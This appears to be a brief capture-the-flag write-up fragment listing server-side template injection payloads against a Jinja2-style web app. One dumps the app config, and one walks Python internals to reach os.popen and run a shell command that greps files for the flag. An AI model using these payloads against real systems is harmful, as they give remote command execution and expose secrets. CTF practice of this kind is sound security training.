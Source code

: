 ### Injections

* `{{ config }}`

*
  ```
  {{ ''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['sys'].modules['os'].popen("strings $(find . -type f) | grep pico").read() }}
  ```
